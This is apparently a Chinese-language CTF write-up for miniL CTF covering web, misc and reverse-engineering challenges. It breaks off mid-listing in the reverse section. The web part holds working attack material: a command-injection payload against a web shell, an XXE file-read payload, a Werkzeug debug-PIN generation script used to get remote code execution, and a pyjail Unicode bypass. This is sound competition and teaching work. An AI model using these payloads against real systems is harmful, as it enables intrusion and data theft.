




# miniL_wp | v3ggieB1rd
## web
### **Sign in | 懒羊羊**

————————————

**http://45.77.145.0:200/shell.php?a=SplFileInfo&b=systema=ca;b=t;c=flag.ph;d=p;$a$b$IFS$c$d;.txt&c=getFilename&d=0&e=6&f=6&g=50**

SplFileInfo->getFilename()得到文件名就是b

$str1='system'

$str2='命令执行'$g取大点，就不用改了

ls直接读

cat /flag.php就得绕过了没禁用';'就用a=ca;b=t;c=flag.ph;d=p;$a$b$IFS$c$d这种绕过喽

### **fake_login | 懒羊羊**

/***xxe+flask pin码执行rce***/

burp抓包+js代码可知  存在xxe注入

‘<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/group"> ]><user><username>&xxe;</username><password>522</password></user>’

file://读取到/flag{提示要rce}

xxe的expect：//方式不能用，无法rce

在前面POST传参有错误是，会返回报错的http响应包

提示有pin码(我是不知道的)

在查阅pin码后得到pin码的计算方式（csdn有脚本和读取值资料）

1. username，用户名(/etc/group最后的minictf)

2. modname，默认值为flask.app

3. appname，默认值为Flask

4. moddir，flask库下app.py的绝对路径（报错页面有）

5. uuidnode，当前网络的mac地址的十进制数 （/sys/class/net/eth0/address）（

   然后去掉：得到hex的8位转成十进制就好了）

6. machine_id，docker机器id

就是一个机器id比较麻烦，pin码错误大概率

machine-id 是空的，然后因为我们知道出题人用的docker容器，所以查阅docker的id
/proc/sys/kernel/random/boot_id  （机器id）
/proc/self/cgroup （）这个0：：（就是空）如果有这个也加上

附pin码脚本

浏览器返回返回的http  burp有但页面不显示

在浏览器中打开流量请求状态码400进去就行

点错误代码就有提示，输入pin

os.popen('命令').read()

/flag里面没有别的

所以试试环境变量
os.getenv('ENV_PORT')然后就出来了

> 
>
>  `import hashlib`
>  `from itertools import chain`
>  `probably_public_bits = [`
>     `'root'# /etc/passwd`
>     `'flask.app',# 默认值`
>     `'Flask',# 默认值`
>     `'/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到`
> `]`

> `private_bits = [`
>     `'2485377581187',#  /sys/class/net/eth0/address 16进制转10进制`
>     `#machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup`
>     `'653dc458-4634-42b1-9a7a-b22a082e1fce55d22089f5fa429839d25dcea4675fb930c111da3bb774a6ab7349428589aefd'#  /proc/self/cgroup`
> `]`
>
> `h = hashlib.sha1()`
> `for bit in chain(probably_public_bits, private_bits):`
>     `if not bit:`
>         `continue`
>     `if isinstance(bit, str):`
>         `bit = bit.encode('utf-8')`
>     `h.update(bit)`
> `h.update(b'cookiesalt')`
>
> `cookie_name = '__wzd' + h.hexdigest()[:20]`
>
> `num = None`
> `if num is None:`
>     `h.update(b'pinsalt')`
>     `num = ('%09d' % int(h.hexdigest(), 16))[:9]`
>
> `rv =None`
> `if rv is None:`
>     `for group_size in 5, 4, 3:`
>         `if len(num) % group_size == 0:`
>             `rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')`
>                           `for x in range(0, len(num), group_size))`
>             `break`
>     `else:`
>         `rv = num`
>
> `print(rv)`

## MISC
——————————
### 1. misc | 逍遥寡王



可以确定是wav音频文件                                                                                 丢进audacity                                                                               shift+m打开菜单，选择频谱图得到压缩包密码






得到半截flag

010editor中选中所需文本 ctrl+shift+c 复制16进制文本                                                                           ctrl+shift+n 新建十六进制文本                                                                        ctrl+shift+v 粘贴自十六进制文本，得到wav文件                                            


sstv，得到flag


### 2. pyjail | 逍遥寡王

尝试几次后发现应该是禁用了字母，通过特殊字符可以绕过，我们可以找到以下字符：                            ᵃᵇᶜᵈᵉᶠᵍʰᵢʲᵏˡᵐⁿᵒᵖ𝐪ʳˢᵗᵘᵛʷˣʸᶻᴬᴮCᴰᴱFᴳᴴᴵᴶᴷᴸᴹᴺᴼᴾＱᴿ𝖲ᵀᵁⱽᵂⅩ𝖸Z

payload:    ᵉᵛᵃˡ(ᵢⁿᵖᵘᵗ)  


## Reverse
————————————
### maze_aot | FUX1AOYUN
IDA打开，看主函数
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  printf("Input a 64-bit hex number to solve the maze: ");
  if ( (unsigned int)__isoc99_scanf("%llx", &key) == 1 )
  {
    steps = key;
    maze_walk();
  }
  fwrite("Invalid format.", 1uLL, 0xFuLL, _bss_start);
  return 1;
}
```
以16进制输入64位的整数，看看`maze_walk()`
```
void __fastcall __noreturn maze_walk(__int64 a1)
{
  while ( 1 )
  {
    if ( !(unsigned int)maze_step(a1) )
      goto LABEL_2;
LABEL_6:
    if ( !(unsigned int)maze_step(a1) )
      goto LABEL_33;
    while ( 1 )
    {
      if ( !(unsigned int)maze_step(a1) )
        goto LABEL_30;
LABEL_14:
      if ( !(unsigned int)maze_step(a1) )
        break;
      while ( 1 )
      {
        if ( !(unsigned int)maze_step(a1) )
          goto LABEL_24;
LABEL_30:
        if ( !(unsigned int)maze_step(a1) )
        {
LABEL_3:
          if ( (unsigned int)maze_step(a1) )
            goto LABEL_4;
          goto LABEL_14;
        }
LABEL_31:
        if ( !(unsigned int)maze_step(a1) )
          goto LABEL_32;
LABEL_27:
        if ( !(unsigned int)maze_step(a1) )
          break;
LABEL_28:
        if ( (unsigned int)maze_step(a1) )
        {
LABEL_40:
          if ( !(unsigned int)maze_step(a1) )
          {
LABEL_4:
            if ( (unsigned int)maze_step(a1) )
              goto LABEL_37;
            goto LABEL_5;
          }
          goto LABEL_41;
        }
      }
```
里面都是诸如此类的逻辑（代码省略1000行 
有很多重复的判断，跳转
看看`maze_step()`
```
__int64 maze_step()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  if ( current == 64 )
  {
    puts("It seems to be in a deserted place.");
    exit(0);
  }
  v1 = steps & 1;
  steps = (unsigned __int64)steps >> 1;
  ++current;
  return v1;
}
```
分析后得到，程序相当于将输入转为二进制，然后根据末位01进行跳转，当走到64步后恰好到达终点，则输出flag
~~简单~~分析后，发现跳转有这样的特点

- 跳转都有两个分叉路口
- 跳转的之间可能存在环结构
为了方便我们逆向，我们先用idapython提取数据结构
```
from idaapi import *
a={}
def get_crefs(addr):#crefs to get jmp's addr!
    a=1
    addr1=list(CodeRefsTo(addr,0))
    for i in range(6):
            if get_byte(addr-i)==233:
                a=0
    addr2=addr1
    if (a==1):
        for i in range(10):
            for j in range(len(addr1)):
                if ((get_byte(addr-i)==15) and (get_byte(addr-i+1)==133))or (get_byte(addr-i)==117):
                    addr2.append(addr-i)
                    break
                if ((get_byte(addr-i)==15) and (get_byte(addr-i+1)==132))or (get_byte(addr-i)==116):
                    addr2.append(addr-i)
                    break
    return addr2
           
def get_faddr(addr):#use jmp's addr to get faddr!
    for i in range(1,80):
        if get_byte(addr-i)==232:
            return addr-i   
  
def get_data_struct(addr):
    a1=hex(get_faddr(get_crefs(addr)[0]))  
    a2=hex(get_faddr(get_crefs(addr)[1]))
    addr1=hex(addr)
    a[addr1]=[a1,a2]
    if get_faddr(addr)!=0x1501:
        shujujiegou(get_faddr(addr))
    else:
        print(a)
        return a          

print("begin")
get_data_struct(0x23ca)
print("ok！")
```
运行得到了数据结构(下方代码中的a
然后用BFS找到最短路径，即为迷宫的通路(~~因为环的存在，DFS跑不出来，别问我咋知道的~~
```
from collections import deque
def bfs_shortest_path(graph, start, end):
    queue = deque([(start, [start])])  # 从起始节点开始，并将起始节点放入队列中
    visited = set()  # 存储已经被访问的节点
    if start == end:
        return [start]  # 起点和终点是同一个节点，直接返回该节点

    while queue:
        (vertex, path) = queue.popleft()  # 从队列头部取出一个节点和其对应的路径
        if vertex not in visited:
            visited.add(vertex)  # 将该节点标记为已经访问
            neighbors = graph[vertex]  # 获取该节点的所有邻居节点
            for neighbor in neighbors:
                if neighbor not in visited:
                    if neighbor == end:
                        return path + [neighbor]  # 找到了终点，返回完整路径
                    else:
                        queue.append((neighbor, path + [neighbor]))  # 将邻居节点和路径加入队列中

    return None  # 没有找到终点，返回空值


a={'0x23ca': ['0x227d', '0x23c1'], '0x23c1': ['0x2270', '0x23b4'], '0x23b4': ['0x23ca', '0x23a7'], '0x23a7': ['0x225d', '0x239a'], '0x239a': ['0x225d', '0x238d'], '0x238d': ['0x22e6', '0x2380'], '0x2380': ['0x2359', '0x23c1'], '0x236b': ['0x22f3', '0x2362'], '0x2362': ['0x2339', '0x2359'], '0x2359': ['0x228a', '0x2350'], '0x2350': ['0x2330', '0x23ca'], '0x2339': ['0x2210', '0x2330'], '0x2330': ['0x22a0', '0x2362'], '0x2316': ['0x2350', '0x2309'], '0x2309': ['0x2339', '0x22fc'], '0x22fc': ['0x22dd', '0x22f3'], '0x22f3': ['0x2316', '0x22e6'], '0x22e6': ['0x23a7', '0x22dd'], '0x22dd': ['0x2380', '0x22d0'], '0x22d0': ['0x22b0', '0x2316'], '0x22b9': ['0x236b', '0x22b0'], '0x22b0': ['0x2297', '0x236b'], '0x22a0': ['0x2254', '0x2297'], '0x2297': ['0x238d', '0x228a'], '0x228a': ['0x22b9', '0x227d'], '0x227d': ['0x2230', '0x2270'], '0x2270': ['0x224b', '0x22a0'], '0x225d': ['0x2200', '0x2254'], '0x2254': ['0x2239', '0x224b'], '0x224b': ['0x2200', '0x2242'], '0x2242': ['0x2309', '0x2239'], '0x2239': ['0x239a', '0x2230'], '0x2230': ['0x22fc', '0x23b4'], '0x2210': ['0x22b9', '0x22d0'], '0x2200': ['0x2126', '0x2242'], '0x21ef': ['0x213c', '0x21e2'], '0x21e2': ['0x21bf', '0x21d5'], '0x21d5': ['0x2110', '0x21c8'], '0x21c8': ['0x2074', '0x21bf'], '0x21bf': ['0x20fa', '0x21b6'], '0x21b6': ['0x20b0', '0x21a9'], '0x21a9': ['0x20c0', '0x21a0'], '0x21a0': ['0x21b6', '0x21ef'], '0x2187': ['0x2149', '0x217a'], '0x217a': ['0x2149', '0x216d'], '0x216d': ['0x2081', '0x2160'], '0x2160': ['0x2040', '0x21a0'], '0x2149': ['0x20e8', '0x213c'], '0x213c': ['0x20f1', '0x2133'], '0x2133': ['0x20b0', '0x2126'], '0x2126': ['0x20fa', '0x211d'], '0x211d': ['0x21d5', '0x2110'], '0x2110': ['0x20cd', '0x21ef'], '0x20fa': ['0x21e2', '0x20f1'], '0x20f1': ['0x20df', '0x20e8'], '0x20e8': ['0x2097', '0x20df'], '0x20df': ['0x21c8', '0x20d6'], '0x20d6': ['0x2133', '0x20cd'], '0x20cd': ['0x211d', '0x20c0'], '0x20c0': ['0x2097', '0x20d6'], '0x20b0': ['0x2062', '0x208e'], '0x2097': ['0x206b', '0x208e'], '0x208e': ['0x2187', '0x2081'], '0x2081': ['0x2040', '0x2074'], '0x2074': ['0x2050', '0x206b'], '0x206b': ['0x2059', '0x2062'], '0x2062': ['0x2160', '0x2059'], '0x2059': ['0x216d', '0x2050'], '0x2050': ['0x2187', '0x21a9'], '0x2040': ['0x1ea8', '0x217a'], '0x2024': ['0x1f0d', '0x201b'], '0x201b': ['0x1ed8', '0x2012'], '0x2012': ['0x1f2d', '0x2005'], '0x2005': ['0x1ecb', '0x1ff8'], '0x1ff8': ['0x1fd9', '0x1feb'], '0x1feb': ['0x1f2d', '0x1fe2'], '0x1fe2': ['0x1e92', '0x1fd9'], '0x1fd9': ['0x201b', '0x1fd0'], '0x1fd0': ['0x1f40', '0x2012'], '0x1fbd': ['0x1f4d', '0x1fb0'], '0x1fb0': ['0x1f69', '0x1fe2'], '0x1f92': ['0x1f69', '0x1f89'], '0x1f89': ['0x1eee', '0x1f80'], '0x1f80': ['0x1e70', '0x1f60'], '0x1f69': ['0x1eb5', '0x1f60'], '0x1f60': ['0x1f92', '0x1fd0'], '0x1f4d': ['0x1efb', '0x1f40'], '0x1f40': ['0x1ec2', '0x1f80'], '0x1f2d': ['0x1fbd', '0x1f20'], '0x1f20': ['0x1f89', '0x2005'], '0x1f0d': ['0x1f4d', '0x1f04'], '0x1f04': ['0x1fb0', '0x1efb'], '0x1efb': ['0x1f0d', '0x1eee'], '0x1eee': ['0x1e80', '0x1ee5'], '0x1ee5': ['0x2024', '0x1ed8'], '0x1ed8': ['0x1fbd', '0x1ecb'], '0x1ecb': ['0x1f92', '0x1ec2'], '0x1ec2': ['0x1e70', '0x1eb5'], '0x1eb5': ['0x1ee5', '0x1ea8'], '0x1ea8': ['0x1e89', '0x1e9f'], '0x1e9f': ['0x1f04', '0x1e92'], '0x1e92': ['0x2024', '0x1e89'], '0x1e89': ['0x1feb', '0x1e80'], '0x1e80': ['0x1e9f', '0x1ff8'], '0x1e70': ['0x1cfd', '0x1f20'], '0x1e52': ['0x1d3b', '0x1e49'], '0x1e49': ['0x1df6', '0x1e40'], '0x1e40': ['0x1df6', '0x1e1d'], '0x1e26': ['0x1d8a', '0x1e1d'], '0x1e1d': ['0x1e49', '0x1e10'], '0x1e10': ['0x1d3b', '0x1e52'], '0x1df6': ['0x1dcb', '0x1de9'], '0x1de9': ['0x1d5d', '0x1de0'], '0x1de0': ['0x1db9', '0x1e40'], '0x1dcb': ['0x1db0', '0x1dc2'], '0x1dc2': ['0x1c80', '0x1db9'], '0x1db9': ['0x1d25', '0x1db0'], '0x1db0': ['0x1c80', '0x1dc2'], '0x1d97': ['0x1cba', '0x1d8a'], '0x1d8a': ['0x1e52', '0x1d7d'], '0x1d7d': ['0x1de0', '0x1d70'], '0x1d70': ['0x1ca0', '0x1e26'], '0x1d5d': ['0x1cad', '0x1d50'], '0x1d50': ['0x1d13', '0x1e10'], '0x1d3b': ['0x1d0a', '0x1d32'], '0x1d32': ['0x1cd9', '0x1d25'], '0x1d25': ['0x1ceb', '0x1d1c'], '0x1d1c': ['0x1cd0', '0x1d13'], '0x1d13': ['0x1e26', '0x1d0a'], '0x1d0a': ['0x1d32', '0x1cfd'], '0x1cfd': ['0x1d5d', '0x1cf4'], '0x1cf4': ['0x1d70', '0x1ceb'], '0x1ceb': ['0x1cba', '0x1ce2'], '0x1ce2': ['0x1de9', '0x1cd9'], '0x1cd9': ['0x1d1c', '0x1cd0'], '0x1cd0': ['0x1cf4', '0x1dcb'], '0x1cba': ['0x1ce2', '0x1cad'], '0x1cad': ['0x1d7d', '0x1ca0'], '0x1ca0': ['0x1d50', '0x1d97'], '0x1c80': ['0x1afd', '0x1d97'], '0x1c60': ['0x1af0', '0x1bff'], '0x1c4a': ['0x1c27', '0x1c3d'], '0x1c3d': ['0x1be0', '0x1c30'], '0x1c30': ['0x1bc2', '0x1c27'], '0x1c27': ['0x1b86', '0x1c1a'], '0x1c1a': ['0x1b79', '0x1c11'], '0x1c11': ['0x1bcb', '0x1c08'], '0x1c08': ['0x1a80', '0x1bff'], '0x1bff': ['0x1b40', '0x1bf2'], '0x1bf2': ['0x1b56', '0x1be9'], '0x1be9': ['0x1b70', '0x1be0'], '0x1be0': ['0x1bb0', '0x1c11'], '0x1bcb': ['0x1c08', '0x1bc2'], '0x1bc2': ['0x1aad', '0x1bb9'], '0x1bb9': ['0x1b20', '0x1bb0'], '0x1bb0': ['0x1be9', '0x1c4a'], '0x1b93': ['0x1c60', '0x1b86'], '0x1b86': ['0x1ad5', '0x1b79'], '0x1b79': ['0x1bb9', '0x1b70'], '0x1b70': ['0x1a80', '0x1c4a'], '0x1b56': ['0x1aa0', '0x1b4d'], '0x1b4d': ['0x1c3d', '0x1b40'], '0x1b40': ['0x1b93', '0x1c1a'], '0x1b20': ['0x1bf2', '0x1b13'], '0x1b13': ['0x1aba', '0x1b0a'], '0x1b0a': ['0x1b4d', '0x1afd'], '0x1afd': ['0x1ad5', '0x1af0'], '0x1af0': ['0x1acc', '0x1b56'], '0x1ad5': ['0x1ac3', '0x1acc'], '0x1acc': ['0x1c30', '0x1ac3'], '0x1ac3': ['0x1c60', '0x1aba'], '0x1aba': ['0x1b0a', '0x1aad'], '0x1aad': ['0x1bcb', '0x1aa0'], '0x1aa0': ['0x1b20', '0x1b93'], '0x1a80': ['0x194f', '0x1b13'], '0x1a60': ['0x19dd', '0x1a0d'], '0x1a42': ['0x1930', '0x1a39'], '0x1a39': ['0x1890', '0x1a2c'], '0x1a2c': ['0x19e6', '0x1a1f'], '0x1a1f': ['0x19b7', '0x1a16'], '0x1a16': ['0x18e9', '0x1a0d'], '0x1a0d': ['0x1970', '0x1a00'], '0x1a00': ['0x195c', '0x1a39'], '0x19e6': ['0x198f', '0x19dd'], '0x19dd': ['0x1a16', '0x19d0'], '0x19d0': ['0x1986', '0x1998'], '0x19b7': ['0x197d', '0x19ae'], '0x19ae': ['0x190c', '0x19a1'], '0x19a1': ['0x18ff', '0x1998'], '0x1998': ['0x1a42', '0x198f'], '0x198f': ['0x195c', '0x1986'], '0x1986': ['0x1890', '0x197d'], '0x197d': ['0x18b9', '0x1970'], '0x1970': ['0x18f6', '0x1a42'], '0x195c': ['0x18e0', '0x194f'], '0x194f': ['0x1919', '0x1946'], '0x1946': ['0x18c6', '0x193d'], '0x193d': ['0x19ae', '0x1930'], '0x1930': ['0x1946', '0x1a2c'], '0x1922': ['0x18c6', '0x1919'], '0x1919': ['0x1a1f', '0x190c'], '0x190c': ['0x1922', '0x18ff'], '0x18ff': ['0x1a60', '0x18f6'], '0x18f6': ['0x193d', '0x18e9'], '0x18e9': ['0x18b0', '0x18e0'], '0x18e0': ['0x19a1', '0x1a00'], '0x18c6': ['0x19b7', '0x18b9'], '0x18b9': ['0x1922', '0x18b0'], '0x18b0': ['0x19e6', '0x1a60'], '0x1890': ['0x1868', '0x19d0'], '0x1871': ['0x17f0', '0x1868'], '0x1868': ['0x1856', '0x185f'], '0x185f': ['0x1736', '0x1856'], '0x1856': ['0x1789', '0x184d'], '0x184d': ['0x17c0', '0x1840'], '0x1840': ['0x181d', '0x185f'], '0x1826': ['0x17df', '0x181d'], '0x181d': ['0x1800', '0x1810'], '0x1810': ['0x17d6', '0x1826'], '0x1800': ['0x174c', '0x184d'], '0x17f0': ['0x16dd', '0x17cd'], '0x17df': ['0x16f9', '0x17d6'], '0x17d6': ['0x16c2', '0x17cd'], '0x17cd': ['0x1713', '0x17c0'], '0x17c0': ['0x1706', '0x1871'], '0x17a9': ['0x1800', '0x17a0'], '0x17a0': ['0x17f0', '0x1826'], '0x1789': ['0x1770', '0x1780'], '0x1780': ['0x17a0', '0x1840'], '0x1770': ['0x1743', '0x17a9'], '0x1759': ['0x16d0', '0x174c'], '0x174c': ['0x16f0', '0x1743'], '0x1743': ['0x16dd', '0x1736'], '0x1736': ['0x1720', '0x1729'], '0x1729': ['0x1759', '0x1720'], '0x1720': ['0x1780', '0x1713'], '0x1713': ['0x1810', '0x1706'], '0x1706': ['0x1871', '0x16f9'], '0x16f9': ['0x1789', '0x16f0'], '0x16f0': ['0x16c2', '0x1759'], '0x16dd': ['0x17a9', '0x16d0'], '0x16d0': ['0x16b9', '0x17df'], '0x16c2': ['0x16b0', '0x16b9'], '0x16b9': ['0x1770', '0x16b0'], '0x16b0': ['0x15bc', '0x1729'], '0x1699': ['0x15a2', '0x168c'], '0x168c': ['0x1609', '0x167f'], '0x167f': ['0x15af', '0x1676'], '0x1676': ['0x15eb', '0x166d'], '0x166d': ['0x151c', '0x1660'], '0x1660': ['0x15bc', '0x1699'], '0x1647': ['0x1576', '0x163e'], '0x163e': ['0x1532', '0x1631'], '0x1631': ['0x1647', '0x1628'], '0x1628': ['0x166d', '0x161b'], '0x161b': ['0x1569', '0x1612'], '0x1612': ['0x1576', '0x1609'], '0x1609': ['0x1676', '0x1600'], '0x1600': ['0x1628', '0x163e'], '0x15eb': ['0x15d9', '0x15e2'], '0x15e2': ['0x1612', '0x15d9'], '0x15d9': ['0x1660', '0x15d0'], '0x15d0': ['0x1590', '0x1600'], '0x15bc': ['0x167f', '0x15af'], '0x15af': ['0x15eb', '0x15a2'], '0x15a2': ['0x15e2', '0x1599'], '0x1599': ['0x1549', '0x1590'], '0x1590': ['0x1560', '0x1631'], '0x1576': ['0x1513', '0x1569'], '0x1569': ['0x1532', '0x1560'], '0x1560': ['0x1540', '0x15d0'], '0x1552': ['0x150a', '0x1549'], '0x1549': ['0x1647', '0x1540'], '0x1540': ['0x1529', '0x1599'], '0x1532': ['0x1501', '0x1529'], '0x1529': ['0x1552', '0x151c'], '0x151c': ['0x168c', '0x1513'], '0x1513': ['0x161b', '0x150a'], '0x150a': ['0x1699', '0x1501'], '0x23d9':['0x2210'],'0x1501':['0x1552']}
print(bfs_shortest_path(a,'0x23d9','0x1501'))
#path=[0x1501,0x150a,0x1513,0x151c,0x166d,0x1676,0x167f,0x15bc,0x16b0,0x16b9,0x16d0,0x1759,0x1729,0x1736,0x185f,0x1868,0x1890,0x1a39,0x1a00,0x1a0d,0x1a16,0x1a1f,0x1919,0x194f,0x1a80,0x1c08,0x1bcb,0x1aad,0x1aba,0x1ac3,0x1ad5,0x1afd,0x1c80,0x1db0,0x1db9,0x1de0,0x1d7d,0x1cad,0x1d5d,0x1cfd,0x1e70,0x1f80,0x1f89,0x1f20,0x1f2d,0x1feb,0x1e89,0x1ea8,0x2040,0x2081,0x208e,0x2097,0x20e8,0x20f1,0x20fa,0x2126,0x2200,0x225d,0x23a7,0x22e6,0x22f3,0x236b,0x22b9,0x2210,0x23d9]
```
得到了迷宫的通路，剩下的过程我是手动走的（~~因为不想写脚本力~~
得到了`1000100100111011110111011101100110101010000100100111100010011110`
即输入`893BDDD9AA12789E`，即可得到flag`miniLctf{YOU_AR3_$0_GOOD_4T_SOLV1NG_MAZE}`
### magical_syscall | FUX1AOYUN
IDA打开看主函数
```
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  puts("input your flag:");
  while ( 1 )
    syscall(
      (unsigned int)dword_5570169AA0AC[dword_5570169AA0A0 + 0x1D4],
      (unsigned int)dword_5570169AA0AC[dword_5570169AA0A0 + 1 + 0x1D4],
      (unsigned int)dword_5570169AA0AC[dword_5570169AA0A0 + 2 + 0x1D4],
      (unsigned int)dword_5570169AA0AC[dword_5570169AA0A0 + 3 + 0x1D4]);
}
```
syscall调用，传了四个地址，emmm......动调看看
```
void __fastcall __noreturn _libc_start_main(
        __int64 a1,
        unsigned int a2,
        const char **a3,
        void (__fastcall *a4)(_QWORD, const char **, _QWORD),
        __int64 a5,
        __int64 a6)
{
  void *v10; // rbx
  __int64 v11; // rdx
  _QWORD *v12; // r14
  __int64 v13; // rcx
  __int64 v14; // rdi
  void (__fastcall **v15)(_QWORD, const char **); // rcx
  __int64 v16; // rsi
  void (__fastcall **v17)(_QWORD, const char **); // r14
  __int64 v18; // [rsp+0h] [rbp-48h]
  __int64 v19; // [rsp+0h] [rbp-48h]
  __int64 v20; // [rsp+8h] [rbp-40h]

  if ( a6 )
    ((void (__fastcall *)(__int64, _QWORD, _QWORD))_cxa_atexit)(a6, 0LL, 0LL);
  LODWORD(v10) = rtld_global_ro & 2;
  if ( (rtld_global_ro & 2) != 0 )
    (*((void (**)(const char *, ...))&rtld_global_ro + 102))("\ninitialize program: %s\n\n", *a3);
  v11 = environ;
  if ( !a4 )
    goto LABEL_10;
  a4(a2, a3, environ);
  while ( 1 )
  {
    ((void (__fastcall *)(__int64))unk_7F4846628340)(rtld_global);
    if ( (_DWORD)v10 )
    {
      v10 = &rtld_global_ro;
      (*((void (**)(const char *, ...))&rtld_global_ro + 102))("\ntransferring control: %s\n\n", *a3);
    }
    ((void (__fastcall *)(__int64, _QWORD, const char **))unk_7F4846629190)(a1, a2, a3);
LABEL_10:
    v12 = (_QWORD *)rtld_global;
    v13 = *(_QWORD *)(rtld_global + 160);
    if ( v13 )
    {
      v18 = v11;
      ((void (__fastcall *)(_QWORD, const char **))(*(_QWORD *)rtld_global + *(_QWORD *)(v13 + 8)))(a2, a3);
      v11 = v18;
    }
    v14 = v12[33];
    if ( v14 )
    {
      v15 = (void (__fastcall **)(_QWORD, const char **))(*(_QWORD *)(v14 + 8) + *v12);
      v16 = *(_QWORD *)(v12[35] + 8LL) >> 3;
      if ( (_DWORD)v16 )
      {
        v17 = v15 + 1;
        v20 = (__int64)&v15[(unsigned int)(v16 - 1) + 1];
        while ( 1 )
        {
          v19 = v11;
          (*v15)(a2, a3);
          v15 = v17;
          if ( v17 == (void (__fastcall **)(_QWORD, const char **))v20 )
            break;
          v11 = v19;
          ++v17;
        }
      }
    }
  }
}
```
发现在(*v15)(a2,a3);这里每次进入函数都会变化，其中第二次检测反调
```
unsigned int sub_561C26A49253()
{
  signal(14, handler);
  signal(5, sub_561C26A49236);
  return alarm(0xAu);
}
```
把后两行直接nop掉，这样第三次进入才不会跳出(我是试出来的，猜测可能和alarm()有关
这是第三次进入
```
unsigned __int64 sub_561C26A4928C()
{
  char *i; // rax
  size_t v1; // rax
  FILE *stream; // [rsp+10h] [rbp-120h]
  char v4[264]; // [rsp+20h] [rbp-110h] BYREF
  unsigned __int64 v5; // [rsp+128h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  stream = fopen("/proc/self/status", "r");
  for ( i = fgets(v4, 256, stream); i; i = fgets(v4, 256, stream) )
  {
    if ( strstr(v4, "TracerPid") )
    {
      v1 = strlen(v4);
      if ( atoi(&v4[v1 - 3]) )
      {
        puts("debugger detected, exit...");
        exit(1);
      }
    }
  }
  return v5 - __readfsqword(0x28u);
}
```
把exit(1)nop掉，接着调下去，第四次进入这里就能看到主逻辑了
```
void __fastcall __noreturn sub_561C26A493B5(__pid_t a1)
{
  int stat_loc; // [rsp+1Ch] [rbp-114h] BYREF
  int *v2; // [rsp+20h] [rbp-110h]
  _DWORD *v3; // [rsp+28h] [rbp-108h]
  int *v4; // [rsp+30h] [rbp-100h]
  int *v5; // [rsp+38h] [rbp-F8h]
  int *v6; // [rsp+40h] [rbp-F0h]
  int *v7; // [rsp+48h] [rbp-E8h]
  char v8[96]; // [rsp+50h] [rbp-E0h] BYREF
  __int64 v9; // [rsp+B0h] [rbp-80h]
  unsigned __int64 v10; // [rsp+B8h] [rbp-78h]
  __int64 v11; // [rsp+C0h] [rbp-70h]
  __int64 v12; // [rsp+C8h] [rbp-68h]
  unsigned __int64 v13; // [rsp+128h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  waitpid(a1, &stat_loc, 0);
  if ( (unsigned __int8)stat_loc != 127 )
  {
    puts("debugger detected, exit...");
    exit(1);
  }
  ptrace(PTRACE_SETOPTIONS, (unsigned int)a1, 0LL, 0x100000LL);
  while ( 1 )
  {
    ptrace(PTRACE_SYSCALL, (unsigned int)a1, 0LL, 0LL);
    waitpid(a1, &stat_loc, 0);
    ptrace(PTRACE_GETREGS, (unsigned int)a1, 0LL, v8);
    if ( v12 == 0x22B8 )
      break;
    if ( v12 == 9999 )
    {
      puts("congratulations");
      exit(0);
    }
    if ( v12 == 3903 )
    {
      v12 = 0LL;
      v11 = 0LL;
      v10 = (unsigned __int64)&dword_561C26A4C0B4;
      v9 = 1LL;
      ptrace(PTRACE_SETREGS, (unsigned int)a1, 0LL, v8);
      ++dword_561C26A4C0A0;
